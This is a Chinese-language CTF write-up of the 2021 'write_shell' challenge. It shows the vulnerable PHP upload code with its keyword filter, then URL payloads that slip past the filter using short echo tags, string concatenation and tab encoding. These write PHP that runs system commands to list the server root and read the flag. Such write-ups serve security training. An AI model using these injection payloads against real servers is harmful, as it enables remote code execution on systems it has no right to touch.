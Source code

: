 # [红明谷CTF 2021]write_shell

## 知识点

`php代码审计`

`命令执行绕过`

## 解题

题目源码

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function check($input){
    if(preg_match("/'| |_|php|;|~|\\^|\\+|eval|{|}/i",$input)){
        // if(preg_match("/'| |_|=|php/",$input)){
        die('hacker!!!');
    }else{
        return $input;
    }
}

function waf($input){
  if(is_array($input)){
      foreach($input as $key=>$output){
          $input[$key] = waf($output);
      }
  }else{
      $input = check($input);
  }
}

$dir = 'sandbox/' . md5($_SERVER['REMOTE_ADDR']) . '/';
if(!file_exists($dir)){
    mkdir($dir);
}
switch($_GET["action"] ?? "") {
    case 'pwd':
        echo $dir;
        break;
    case 'upload':
        $data = $_GET["data"] ?? "";
        waf($data);
        file_put_contents("$dir" . "index.php", $data);
}
?>
```

过滤了`php`,`空格`，写入文件内容时可以用`<?=`绕过`<?php`，里面的内容可以用`.`绕过，如`ph.pinfo`,，`;`被过滤掉了,只执行一条语句即可,`空格`可以用`%09`(tab)绕过

```url
/?action=upload&data=<?=(ph.pinfo)()?>
```

![](./img/19-1.png)

![](./img/19-2.png)

```url
?action=upload&data=<?=system("ls%09/")?>
或者
/?action=upload&data=`cat%09/flllllll1112222222lag`?>
```

![](./img/19-3.png)

```url
?action=upload&data=<?=system("cat%09/flllllll1112222222lag")?>
```

![](./img/19-4.png)

[参考文章](https://www.shawroot.cc/1897.html)